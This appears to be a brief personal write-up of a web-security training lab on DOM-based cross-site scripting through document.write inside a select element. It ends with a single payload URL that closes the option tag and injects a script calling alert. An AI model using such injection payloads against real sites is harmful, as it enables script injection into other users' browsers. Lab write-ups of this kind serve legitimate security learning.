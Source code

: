 # Lab: DOM XSS in document.write sink using source location.search inside a select element

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.

## Cross Site Scripting
* 解法如前一題
```
payload = https://acfb1fa41f8e98cbc0a5136600a70032.web-security-academy.net/product?productId=3&storeId=123</option><script>alert(1)</script>
```